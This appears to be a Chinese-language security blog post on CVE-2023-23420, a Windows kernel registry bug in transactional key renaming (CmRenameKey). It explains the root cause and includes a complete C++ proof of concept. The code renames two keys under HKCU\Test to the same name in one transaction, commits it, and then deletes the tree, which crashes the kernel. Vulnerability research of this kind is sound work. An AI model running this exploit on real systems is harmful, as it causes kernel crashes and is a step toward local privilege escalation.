 ```yaml
---
layout: post
title:  "CVE-2023-23420"
categories: hack
tags:  pentest
author: cn6u9
---
```


* content
{:toc}

Windows 中就地重命名注册表项的操作在 NtRenameKey 系统调用中实现，大部分核心逻辑在内部 CmRenameKey 函数（由 NtRenameKey 调用）中找到。为了保持 hive 数据库的状态一致，内核防止键名冲突很重要，如果已经存在另一个具有该名称的键，则永远不要接受重命名键的新名称。这是通过调用 CmpFindSubKeyByNameWithStatus 并在新名称已存在时返回 STATUS_CANNOT_DELETE 来实现的。这足以防止与配置单元中持久存在的子键发生冲突。

然而，还有一类键在 Hive 结构中还没有全局可见的键节点，但具有相应的 KCB 并且实际上存在于事务范围内：尚未提交的事务创建/重命名键. 在这个阶段，它们无法通过 CmpFindSubKeyByNameWithStatus 找到，但是 NtRenameKey/CmRenameKey 应该考虑到它们。它们目前在事务重命名案例中没有得到正确处理，这可能导致配置单元状态不一致、内存损坏和本地攻击者潜在的特权提升。

CmRenameKey 中的具体逻辑对我们来说似乎有些不直观，我们无法基于逆向工程来完全解释它。该函数知道一个密钥的 KCB 可能已经存在的事实，因为它试图通过调用 CmpFindKcbInHashEntryByName 来找到它。仅当未找到 KCB 时，才会使用 CmpCreateKeyControlBlock 分配一个新的。尽管如此，即使为新密钥名称找到了现有的 KCB，也不会进行任何进一步的检查以验证事务处理分支中 KCB 的状态（密钥是否处于活动状态？它是否处于删除/卸载状态等） .?). 相反，CmRenameKey 似乎假定 KCB 处于新鲜/未使用状态并完全拥有它，忽略对象的任何现有状态和依赖项。这表现在几个方面：

1) 例程无条件地覆盖 KCB 的部分内容，特别是 KCB.KeyCell 和 KCB.TransKCBOwner 字段（可能已经设置为不同的值）。
2) 例程在 KCB 上调用 CmpLockIXLockExclusive 两次而不检查返回值，就好像该函数永远不会失败（如果 KCB 的锁已经被另一个事务占用，它就会失败）。
3) 如果稍后在 CmRenameKey 期间遇到任何错误，则通过调用 CmpMarkKeyUnbacked/CmpDereferenceKeyControlBlockWithLock 销毁 KCB，并且不会尝试保留其现有状态。

我们发现以上是一个强有力的指标，表明该函数假设在 KCB 的新副本上运行，即使它在 CmpFindKcbInHashEntryByName 返回时可能已完全初始化并起作用。

原则上，触发漏洞需要三个步骤：

1) 通过创建（例如 RegCreateKeyEx）或重命名（例如 RegRenameKey）操作以事务方式创建测试密钥，但不要提交它。
2) 事务性地将另一个键重命名为步骤 1 中键的名称。
3) 提交步骤 1/2 中的事务。

从理论上讲，这应该会导致创建两个具有相同名称的子项，这通常是不可能的，但需要一些工作才能转换为内存损坏原语。

在实践中，由于 CmpAddSubKeyToList/CmpAddToLeaf 函数之间面临重复键名的混淆，我们立即得到数据库的不一致状态：_CM_KEY_NODE.SubKeyCounts[1] 等于 0x2，但 _CM_KEY_NODE.SubKeyLists[ 指向的键索引1] 只有一个条目。
附件是一个概念验证漏洞，它执行以下步骤：
1. 创建 HKCU\Test\AAAA 和 HKCU\Test\BBBB 密钥。
2. 将两个子项事务性地重命名为 HKCU\Test\CCCC。
3. 提交事务。
4. 尝试通过 RegDeleteTree 递归删除整个 HKCU\Test 树。

第 2-3 步触发错误，第 4 步触发内核崩溃。发生的情况是，一旦 HCKU\Test\CCCC 第一次被删除，子键索引变为空，因此 _CM_KEY_NODE.SubKeyLists[1] 单元格索引重置为 -1 (0xFFFFFFFF)。但是 _CM_KEY_NODE.SubKeyCounts[1] 仅从 0x2 递减到 0x1，因此当 RegDeleteTree API 尝试再次枚举子键以查找下一个要删除的键时，内核尝试将无效的 -1 索引转换为虚拟地址，并生成未处理的异常。
poc:

```cpp
#include <Windows.h>
#include <ktmw32.h>
#include <sddl.h>

#include <cstdio>

#pragma comment(lib, "ktmw32")

int main(int argc, char** argv) {
  LSTATUS st;

  //
  // Create two test keys under HKCU\Test.
  //

  HKEY hTestKeyA, hTestKeyB;
  st = RegCreateKeyExA(HKEY_CURRENT_USER,
                       "Test\\AAAA",
                       0,
                       NULL,
                       REG_OPTION_VOLATILE,
                       KEY_ALL_ACCESS,
                       NULL,
                       &hTestKeyA,
                       NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegCreateKeyExA #1 failed with error %d\n", st);
    return 1;
  }

  RegCloseKey(hTestKeyA);

  st = RegCreateKeyExA(HKEY_CURRENT_USER,
                       "Test\\BBBB",
                       0,
                       NULL,
                       REG_OPTION_VOLATILE,
                       KEY_ALL_ACCESS,
                       NULL,
                       &hTestKeyB,
                       NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegCreateKeyExA #2 failed with error %d\n", st);
    return 1;
  }

  RegCloseKey(hTestKeyB);

  //
  // Create a transaction.
  //

  HANDLE hTrans = CreateTransaction(NULL, NULL, 0, 0, 0, 0, NULL);
  if (hTrans == INVALID_HANDLE_VALUE) {
    printf("CreateTransaction failed with error %u\n", GetLastError());
    return 1;
  }

  //
  // Open the test keys and rename both of them transactionally to the same new
  // name.
  //

  st = RegOpenKeyTransactedA(HKEY_CURRENT_USER,
                             "Test\\AAAA",
                             0,
                             KEY_ALL_ACCESS,
                             &hTestKeyA,
                             hTrans,
                             NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegOpenKeyTransactedA #1 failed with error %d\n", st);
    return 1;
  }

  st = RegOpenKeyTransactedA(HKEY_CURRENT_USER,
                             "Test\\BBBB",
                             0,
                             KEY_ALL_ACCESS,
                             &hTestKeyB,
                             hTrans,
                             NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegOpenKeyTransactedA #2 failed with error %d\n", st);
    return 1;
  }

  st = RegRenameKey(hTestKeyA, NULL, L"CCCC");

  if (st != ERROR_SUCCESS) {
    printf("RegRenameKey #1 failed with error %d\n", st);
    return 1;
  }

  st = RegRenameKey(hTestKeyB, NULL, L"CCCC");

  if (st != ERROR_SUCCESS) {
    printf("RegRenameKey #2 failed with error %d\n", st);
    return 1;
  }

  //
  // Commit the transaction.
  //

  if (!CommitTransaction(hTrans)) {
    printf("CommitTransaction failed with error %u\n", GetLastError());
    return 1;
  }

  //
  // Try to recursively delete the test key tree, triggering a crash.
  //

  RegDeleteTree(HKEY_CURRENT_USER, L"Test");

  return 0;
}
```

# 小结


